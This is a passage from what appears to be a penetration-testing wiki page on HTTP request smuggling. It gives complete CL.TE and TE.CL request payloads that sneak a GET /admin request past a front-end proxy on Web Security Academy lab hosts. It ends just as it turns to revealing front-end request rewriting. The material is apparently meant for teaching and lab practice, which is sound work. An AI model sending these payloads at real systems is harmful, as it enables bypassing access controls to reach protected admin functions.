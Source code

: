 ## Abusing HTTP Request Smuggling

### To bypass front-end security controls

Some times the **front-end proxies will perform some security checks**. You can avoid them by abusing HTTP Request Smuggling as you will be able to **bypass the protections**. For example, in this example you **cannot access `/admin` from the outside** and the front-end proxy is checking that, but this **proxy isn't checking the embedded request**:

#### CL.TE

\`POST / HTTP/1.1  
Host: acb21fdd1f98c4f180c02944000100b5.web-security-academy.net  
Cookie: session=xht3rUYoc83NfuZkuAp8sDxzf0AZIwQr  
Connection: keep-alive  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 67  
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1  
Host: localhost  
Content-Length: 10

x=\`

#### TE.CL

`POST / HTTP/1.1    
Host: ace71f491f52696180f41ed100d000d4.web-security-academy.net    
Cookie: session=Dpll5XYw4hNEu09dGccoTjHlFNx5QY1c    
Content-Type: application/x-www-form-urlencoded    
Connection: keep-alive    
Content-Length: 4    
Transfer-Encoding: chunked    
2b    
GET /admin HTTP/1.1    
Host: localhost    
a=x    
0`

### Revealing front-end request rewriting <a id="revealing-front-end-request-rewriting"></a>

In many applications, the **front-end server performs some rewriting of requests** before they are forwarded to the back-end server, typically by adding some additional request headers.  
One common thing to do is to **add to the request the header** `X-Forwarded-For: <IP of the client>` or some similar header so the back-end knows the IP of the client.  
Sometimes, if you can **find which new values are appended** to the request you could be able to **bypass protections** and **access hidden information**/**endpoints**.

For discovering how is the proxy rewriting the request you need to **find a POST parameter that the back-end will reflect it's value** on the response. Then, use this parameter the last one and use an exploit like this one:
